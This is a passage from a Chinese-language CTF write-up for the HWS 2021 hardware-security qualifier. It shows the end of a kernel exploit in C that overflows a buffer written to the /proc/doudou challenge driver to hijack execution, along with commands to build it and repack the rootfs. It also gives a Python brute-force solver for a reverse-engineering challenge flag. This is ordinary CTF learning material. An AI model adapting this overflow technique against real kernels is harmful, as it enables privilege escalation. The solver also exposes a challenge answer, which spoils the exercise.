 ```c
int main(){
    save_stats();
    char a[0x107];
    long long * payload;
    payload = (long long *)a;
    payload[0] = 0xaaaaaaaaaaaaaaaa;
    payload[1] = 0xaaaaaaaaaaaaaaaa;
    payload[2] = (void *)exp;
    int f = open("/proc/doudou",1);
    write(f,a,0x107);
    exit(0);
    return 0;
}
```

编译与重打包如下：

```sh
gcc -e main -nostdlib -static exp.c -o exp
cp ./exp ./rootfs/
cd rootfs && find . | cpio -H newc -o > ../rootfs.img
cd .. && ./boot.sh
```

## reverse

AK逆向的WP找到三份：

- [20000s: HWS计划2021硬件安全冬令营线上选拔赛 re wp](https://blog.csdn.net/qq_37439229/article/details/113507064)
- [blinkb1ink: HWS计划2021硬件安全冬令营线上选拔赛](https://blog.csdn.net/FIshy000/article/details/113667886)
- [Bxb0: HWS计划2021硬件安全冬令营线上选拔赛部分Wp](https://www.anquanke.com/post/id/230816)

我自己第一次正经看逆向题，完全不会，对windows也不熟，就做了一个，算上固件里STM和easybios，人生总共做过4个逆向，之前做过一个什么老年人逆向，比下面这个还简单：

### decryption

> x86:windows

爆破即可：

```python
en_flag = [0x12,0x45,0x10,0x47,0x19,0x49,0x49,0x49,
           0x1A,0x4F,0x1C,0x1E,0x52,0x66,0x1D,0x52,
           0x66,0x67,0x68,0x67,0x65,0x6F,0x5F,0x59,
           0x58,0x5E,0x6D,0x70,0xA1,0x6E,0x70,0xA3]

def encrypt(data,index):
    v5 = data;
    v4 = index;
    while 1:
        v3 = 2 * (v4 & v5);
        v5 ^= v4;
        v4 = v3;
        if(v3 == 0): break
    return v5 ^ 0x23

pos  = 0
flag = ''
while 1:
    if pos == 32: break
    for i in range(32,127):
        tmp = encrypt(i,pos)
        if en_flag[pos] == tmp:
            flag += chr(i)
            pos += 1
```